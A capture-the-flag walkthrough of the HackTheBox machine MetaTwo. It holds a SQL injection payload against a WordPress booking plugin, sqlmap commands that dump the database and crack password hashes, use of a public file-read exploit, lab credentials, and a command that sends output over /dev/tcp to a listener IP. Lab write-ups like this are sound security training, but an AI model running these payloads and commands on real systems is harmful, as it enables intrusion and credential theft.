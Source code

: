 ```yaml
---
title: MetaTwo
date: 2022-11-09T17:33:38-08:00
author: Nate Fortner
draft: true
katex: true
type: default
keywords:
  - MetaTwo
  - HackTheBox
lastmod: 2022-11-17T20:58:50.333Z
---
```


# MetaTwo
## Intial Recon
### Nmap
As usual, I began by running [NmapAutomator](https://github.com/21y4d/nmapAutomator) to get a quick overview of the machine.  I immediately saw that ports `21`, `22`, and `80` were open.  It was running nginx 1.18, ProFTPD, and OpenSSH 8.4.  It was also running on Debian.  On port 80, there is a redirect to `http://metapress.htb`.  Normally I would have to add the IP address and hostname to my hosts file, but I use a script (which can be found [here](https://github.com/bsasealteam6/HTBSupport)) that automatically adds all current HTB machines and IP Addresses to my hosts file, so I just have to find the entry for metatwo.htb and add metapress.htb to the end of the line.
NmapAutomator also ran ffuf against the web server, and found nothing interesting.
### Visiting the site
Next, I browse to `http://metapress.htb` and checkout the site.  It has a link to `http://metapress.htb/events`, which appears to be a meeting scheduler of some sort.  I opened the FireFox developer console network page and submitted the form, then right clicked on the `POST` request and selecting "Copy as cURL."  I then pasted this command into the terminal, replaced the word `curl` with `sqlmap`, and let sqlmap crack on it.  Unfortunately, it didn't find anything interesting.  I did, however, notice that it is a wordpress site.  I ran the command `wpscan --url metapress.htb -e at,ap --plugins-detection mixed` against the site, and found something!  It found a vulnerability (https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357) where I could run SQL queries against the server through a specially crafted cURL.  

## Foothold
### WordPress SQL Injection
One of their examples used the command `curl -i 'https://example.com/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=1&total_service=1) AND (SELECT 9578 FROM (SELECT(SLEEP(5)))iyUp)-- ZmjH' `  I modified this command slightly, getting a nonce value from the HTML code of the booking site, updating the url to be correct, and dumping the injection, then fed this into sqlmap as `sqlmap 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=61a943f4b5&category_id=33&total_service=1' --dbs`.  This told me there was two databases, `information_schema` and `blog`.  With this knowledge, I next ran the command `sqlmap 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=61a943f4b5&category_id=33&total_service=1' -D blog --dump`.  It dumped the full blog database, finding a table `users` with password hashes. It prompted me whether I wanted to try to crack them, so I told it yes, and specified a custom dictionary of `/usr/share/wordlists/rockyou.txt`.  It was unable to give me a password for `admin`, but `manager` had a password of  `partylikearockstar`.  
### WordPress Media Upload
I then used this to sign into wordpress.  And, I have almost no access.  I tried uploading PHP shells to it, and it blocked them.  I also tried signing into ssh with these creds and that was also blocked.  I found directions [here](https://gobiasinfosec.blog/2019/12/24/file-upload-attacks-php-reverse-shell/) for how to upload it anyways, and followed those directions using burpsuite.  Unfortunately, this did not work.  Next, I found [this](https://github.com/motikan2010/CVE-2021-29447) github page, and followed the directions and they worked.  Using this, I was first able to transfer `/etc/nginx/sites-enabled/default` to find out where the wordpress site was stored, then `/var/www/metapress.htb/blog/wp-config.php`, where I found the FTP Username and Password, `metapress.htb:9NYS_ii@FyL_p5M2NvJ`
### FTP
I did a bit of browsing on the FTP server, and eventually found a file called `send_email.php`.  I opened it up and found the following lines: 
```php
$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;                          
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
$mail->SMTPSecure = "tls";                           
$mail->Port = 587;       
```
From this, I figured the user account for logging in was `jnelson`, and the password was `Cb4_JmWM8zUZWMu@Ys`.  I then signed in with SSH.
## Root
### Basics
First thing I did was run sudo -l since I have the password for jnelson.  Unfortunately, jnelson was not allowed to use the sudo command at all.  I also did a check of the `/opt` folder, which was empty, as well as `/`, which didn't have anything that caught my eye.  Next up, I ran linpeas, downloading it to the machine with `wget`, and using bash to pipe it back to my host machine. I ran  
`./linpeas.sh >& /dev/tcp/10.10.14.101/4444 0>&1` on the box, and `nc -lvnp 4444 | tee linpeas.out` on my machine.  Looking through the linpeas output file (after converting it to html for easier viewing), I didn't see much.  However, I noticed an interesting folder called `.passpie` in the home folder.  After searching for passpie, I found out it was a password manager and there was a file called `ssh/root.pass` in there, but it's pgp encrypted.  Let's decrypt it!
I was able to find the PGP private key at `~/.passpie/.key`, then I just ran it through `pgp2john` then `john`, and got the password of `blink182`.  Ran `passpie copy ssh --to stdout`, entered `blink182`, and got the root password.  Then I just had to run `su -` and enter the password, and I was root! 